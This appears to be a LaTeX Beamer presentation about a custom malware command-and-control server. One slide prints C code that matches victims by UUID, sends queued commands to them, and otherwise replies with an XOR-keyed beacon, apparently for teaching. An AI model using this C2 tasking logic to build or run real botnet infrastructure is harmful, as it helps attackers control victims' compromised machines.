 \documentclass[aspectratio=169]{beamer}
\begin{document}
\begin{frame}[fragile]{}
  \frametitle{CnC Server}
  \framesubtitle{Handling Victim Sessions 1}
  \begin{center}
    \begin{tcolorbox}[title=net.c,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{verbatim}
        for (int i = 0; i < NET_MAX_CLIENTS; i++){
          if (p_commands[i] != NULL &&
              (strcmp(p_net_client_beacon->sysinfo.uuid, // Check Victim UUID
              p_commands[i]->uuid) == 0)){
            command = true;
            if (send(sock, p_commands[i], sizeof(net_server_beacon_t), 0) < 0){
              fprintf(stderr, "[-] %s\n", strerror(errno));
            }
            net_remove_commands(p_commands[i], p_commands); // Command Sent to Victim
          }
        }
        if (command == false){
          p_net_server_beacon->xor_key = DEFS_XOR_KEY; // Set Packet XOR Key
          p_net_server_beacon->status = true;
          if (send(sock, p_net_server_beacon, sizeof(net_server_beacon_t), 0) < 0){
            fprintf(stderr, "[x] %s\n", strerror(errno));
            free(p_net_server_beacon);
            free(p_net_client_beacon);
            pthread_exit(NULL);
          }
        }
      }
      \end{verbatim}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{NCurses}
  \begin{center}
    \includegraphics[width=12cm,keepaspectratio]{ncurses}
  \end{center}
\end{frame}
\end{document}
